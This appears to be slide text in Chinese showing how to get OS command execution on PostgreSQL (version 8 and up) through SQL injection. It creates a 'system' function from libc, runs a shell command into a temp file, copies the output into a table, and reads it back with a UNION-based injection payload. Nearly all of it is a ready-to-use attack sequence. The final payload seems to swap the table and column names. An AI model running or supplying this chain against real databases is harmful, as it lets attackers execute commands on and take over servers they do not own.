

# 创建system函数
用于版本大于8的数据库
创建一个system的函数：
create FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT
创建一个输出表：
create table stdout(id serial, system_out text)
执行shell，输出到输出表内：
select system('uname -a > /tmp/test')
copy 输出的内容到表里面；
COPY stdout(system_out) FROM '/tmp/test'
从输出表内读取执行后的回显，判断是否执行成功
union all select NULL,(select stdout from system_out order by id desc),NULL limit 1 offset 1–-